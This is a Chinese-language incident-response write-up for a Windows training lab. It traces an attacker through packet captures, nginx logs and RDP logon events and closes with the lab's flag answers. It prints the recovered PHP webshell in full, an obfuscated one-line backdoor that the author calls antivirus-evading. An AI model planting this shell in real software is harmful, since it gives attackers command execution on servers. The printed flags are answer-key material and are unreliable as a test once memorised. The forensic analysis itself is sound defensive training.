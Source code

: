# Windows应急-应急与研判训练计划 

```
任务环境说明
    这是某单位正常运行的主机，但由于安全防范意识不到位，导致系统被攻击。目前已知攻击者成功接管了系统。
    需要通过上机排查，利用开放的服务快速识别攻击者的操作、最终攻击成功的方法以及接管成功的IP。相关工具和全程流量数据已放置在桌面中。
    1. 你需要根据环境内的所有工具和文件，附件等，根据应急响应形式快速排查出攻击者的所有行为
    2. 你需要排查出攻击者最后利用成功的漏洞以及利用成功IP进行整理
    3. 你需要自己按照攻击者思路写一份攻击者大概的攻击思路或攻击流程图
    4. 你可以借助一切工具，你可以把它当作实战，这里没有任何约束条件
```



```
请找出攻击者攻击成功的端口，如多个端口，则从小到大{x,x,x,}
请找出攻击者上传的恶意文件名
请找出攻击者最终攻击成功的端口
请找出攻击者最终攻击成功端口的IP
请找出攻击者最后接管服务器的IP
```



桌面存在wireshark流量，保存到本地

打开phpstudy，查看日志文件，apache日志为空，nginx中存在日志记录，将access.log保存到本地

将事件日志保存到本地







首先查看wireshark流量

统计会话

![image-20250515150635061](./assets/image-20250515150635061.png)

其中192.168.18.133向192.168.18.151发送了大量数据，初步推测攻击者为192.168.18.133，服务器为192.168.18.151

选中一个流量包，确认攻击时间：2024.12.25 

![image-20250515152934236](./assets/image-20250515152934236.png)

筛选

```
ip.src==192.168.18.133 && ip.dst==192.168.18.151
```

![image-20250515150915222](./assets/image-20250515150915222.png)

端口扫描

![image-20250515150941393](./assets/image-20250515150941393.png)

攻击21端口



查看会话

主要对四个端口发送了大量流量，如21，80，3389，8080

![image-20250515151045446](./assets/image-20250515151045446.png)



![image-20250515151055241](./assets/image-20250515151055241.png)



![image-20250515151102648](./assets/image-20250515151102648.png)



![image-20250515151113172](./assets/image-20250515151113172.png)





逐个分析

21端口

```
ip.src==192.168.18.133  && ip.dst==192.168.18.151 && tcp.dstport==21
```

![image-20250515151244618](./assets/image-20250515151244618.png)

攻击者先尝试爆破ftp服务

最终通过

```
admin:password
```

![image-20250515151423688](./assets/image-20250515151423688.png)

成功登录ftp服务，最终得到了一个文件

![image-20250515151458412](./assets/image-20250515151458412.png)



到处FTP-DATA文件

![image-20250515151533828](./assets/image-20250515151533828.png)

![image-20250515151606952](./assets/image-20250515151606952.png)



然后80端口

![image-20250515151724531](./assets/image-20250515151724531.png)

大量404，并未成功利用



8080

![image-20250515151938788](./assets/image-20250515151938788.png)

攻击者利用/dede/a/newfile1.php尝试执行phpinfo()

追踪该流

![image-20250515152809213](./assets/image-20250515152809213.png)

![image-20250515152820578](./assets/image-20250515152820578.png)

执行失败



推测该文件为木马，找到该文件

![image-20250515152225448](./assets/image-20250515152225448.png)

< php7.1可用的一句话免杀马，密码为1

```
<?  @("Y;HJ(Z"^"8H;/Z.")(${"~?}$"^"!x8p"}[1]);
```





查看access.log日志，并过滤ip

```
cat access.log | awk '{print $1}' | sort -nr | uniq -c
```

![image-20250515152436042](./assets/image-20250515152436042.png)

其中192.168.18.133存在大量访问

提取ip行为

```
cat access.log | grep 192.168.18.133  > ra1n3.txt
```

![image-20250515152726330](./assets/image-20250515152726330.png)





3389，查看事件日志

筛选日志ID：4624

保存到本地并过滤源网络地址

```
cat 1.txt |grep 源网络地址: | sort -nr | uniq -c
```

![image-20250515153346838](./assets/image-20250515153346838.png)

两个登录成功的ip：192.168.18.133和192.168.18.1



请找出攻击者攻击成功的端口，如多个端口，则从小到大{x,x,x,}

21端口，攻击者通过爆破ftp服务，成功登录，并获取到了一个txt文件

80端口，攻击者只是进行了目录扫描，并未造成实质性的破坏

3389端口，192.168.18.133和192.168.18.1成功通过用户凭证登录RDP服务

8080端口，攻击者上传了newfile1.php木马文件，但是尝试执行phpinfo失败

```
flag{21,3389,8080}
```



请找出攻击者上传的恶意文件名

```
flag{newfile1.php}
```



请找出攻击者最终攻击成功的端口

攻击者通过用户凭证成功登录RDP服务

```
flag{3389}
```



请找出攻击者最终攻击成功端口的IP

RDP服务共两个IP成功登录

192.168.18.133和192.168.18.1

则

```
flag{192.168.18.133}
```



请找出攻击者最后接管服务器的IP

```
flag{192.168.18.1}
```

